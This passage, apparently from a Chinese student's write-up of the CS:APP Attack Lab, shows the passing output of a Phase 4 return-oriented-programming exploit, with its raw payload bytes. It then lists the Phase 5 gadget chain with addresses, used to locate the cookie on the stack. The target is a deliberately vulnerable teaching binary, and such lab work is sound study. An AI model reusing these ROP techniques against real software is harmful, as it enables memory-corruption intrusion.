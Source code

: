 #### 结果

~~~bash
lzy@DESKTOP-PS05SI3:~/csapp/attacklab/attacklab/target1$ ./hex2raw < phase4.txt | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 C5 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00 
~~~

***

### Phase 5

#### 要求

- 同Phase 3

#### 分析

- 使用ROP
- 使用计算`%rsp`和偏移的值来找到存放cookie的地址
- 根据cookie前面存放的指令进行计算；（前面有10条指令）
- **注意：**`getbuf`执行`ret`后相当于进行了一次`pop`操作，`test`的栈顶指针`%rsp=%rsp+0x8`，所以`cookie`相对于此时栈顶指针的偏移量是`0x48`而不是`0x50`

~~~assembly
#地址：0x401aad
movq %rsp, %rax
ret

#地址：0x4019a2
movq %rax, %rdi
ret

#地址：0x4019cc
popq %rax
ret

### 插入偏移地址

#地址：0x4019dd
movl %eax, %edx
ret

#地址：0x401a70
movl %edx, %ecx
ret

#地址：0x401a13
movl %ecx, %esi
ret

#地址：0x4019d6
lea    (%rdi,%rsi,1),%rax
ret

#地址：0x4019a2
movq %rax, %rdi
ret
~~~